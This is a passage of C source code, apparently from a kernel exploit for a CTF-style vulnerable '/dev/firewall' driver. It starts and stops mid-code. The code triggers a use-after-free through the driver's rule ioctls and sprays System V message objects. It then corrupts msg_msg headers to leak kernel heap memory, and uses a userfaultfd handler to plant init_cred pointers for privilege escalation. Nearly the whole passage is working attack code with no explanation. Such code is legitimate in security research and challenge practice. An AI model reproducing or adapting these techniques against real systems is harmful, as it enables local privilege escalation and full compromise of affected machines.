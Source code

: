 ```c
    int idx = 0xfd0 / 8;
    ((uint64_t *)msg_buf)[idx++] = init_cred;
    ((uint64_t *)msg_buf)[idx++] = init_cred;
    ((uint64_t *)msg_buf)[idx++] = init_cred;
    ((uint64_t *)msg_buf)[idx++] = init_cred;

    uffd_copy(uffd, msg_buf, &uf_msg);
    break;
  }
  puts("[+] exit fault_handler_thread!");
}

int main() {
  user_rule_t *rule = calloc(1, sizeof(user_rule_t));
  msg *message = (msg *)msg_buf;
  int ret = 0;
  global_fd = open("/dev/firewall", O_RDWR);
  if (global_fd < 0) {
    die("[!] Failed to open /dev/firewall");
  }
  qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid < 0) {
    die("[!] Failed to msgget");
  }
  printf("[+] qid = %d\n", qid);

  printf("[*] UAF prepare...\n");
  rule->idx = 0;
  rule->type = INBOUND;
  strcpy(rule->netmask, "255.255.255.255");
  strcpy(rule->ip, "127.0.0.1");

  add_rule(rule);
  dup_rule(rule);
  del_rule(rule);

  printf("[*] Send message\n");
  bzero(msg_buf, 0x2000);
  message->mtype = 1;
  memset(message->mtext, 'A', 0x1010);
  send_msg(qid, message, 0x1010 - 0x30, 0);

  printf("[*] Heap spary...\n");
  heap_spary(0x80);

  printf("[*] Edit msg...\n");
  ((struct msg_msg *)rule)->m_list.next = (void *)0xAAAAAAAA;
  ((struct msg_msg *)rule)->m_list.prev = (void *)0xBBBBBBBB;
  ((struct msg_msg *)rule)->m_ts = 0x1000 + 0x500;
  ((struct msg_msg *)rule)->m_type = 1;
  rule->idx = 0;
  rule->type = OUTBOUND;
  strcpy(rule->ip, "000000000");
  ioctl(global_fd, EDIT_RULE, rule);

  uint64_t *dump = calloc(1, 0x1500);
  printf("[+] dump:\t%p\n", dump);
  ret = msgrcv(qid, dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }
  int i;
  for (i = 0xff0 / 8; i < 0x1500 / 8; i++) {
```